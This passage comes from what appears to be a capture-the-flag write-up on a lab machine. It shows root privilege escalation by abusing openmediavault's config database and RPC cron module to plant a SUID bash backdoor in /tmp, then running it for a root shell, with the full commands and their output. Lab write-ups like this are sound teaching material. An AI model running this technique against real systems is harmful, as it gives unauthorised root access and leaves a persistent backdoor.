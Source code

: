 
There’s a typo in the example where the closing `sendmail` tag is missing the
`/`. Not having this will fail with `omv-confdbadm` (which is why it’s nice to
have as a check).

With a valid DB, I’ll reload the `cron` module using RPC:

    
    
    openmediavault-webgui@derailed:/etc/openmediavault$ /usr/sbin/omv-rpc -u admin "config" "applyChanges" "{ \"modules\": [\"cron\"], \"force\": true }"
    null
    

I’ll wait a minute, and then my `bash` backdoor is present:

    
    
    openmediavault-webgui@derailed:/etc/openmediavault$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1234376 Jul 20 16:51 /tmp/0xdf
    

And I can run it to get a root shell (euid = 0):

    
    
    openmediavault-webgui@derailed:/etc/openmediavault$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=999(openmediavault-webgui) gid=996(openmediavault-webgui) euid=0(root) groups=996(openmediavault-webgui),998(openmediavault-engined),999(openmediavault-config)
    

Looking at how this works, I’ll find a few files in `/etc/cron.d` that are
managed by openmediavault:

    
    
    root@derailed:/etc/cron.d# ls
    anacron  e2scrub_all  mdadm  openmediavault-mkrrdgraph  openmediavault-powermngmt  openmediavault-userdefined  php
    

The `openmediavault-userdefined` on has my job:

    
    
    root@derailed:/etc/cron.d# cat openmediavault-userdefined 
    # This file is auto-generated by openmediavault (https://www.openmediavault.org)
    # WARNING: Do not edit this file, your changes will get lost.
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    # m h dom mon dow user    command
    * * * * * root /var/lib/openmediavault/cron.d/userdefined-b8068c15-0d5e-4d38-a7d0-6885a31c8a53 >/dev/null 2>&1
    

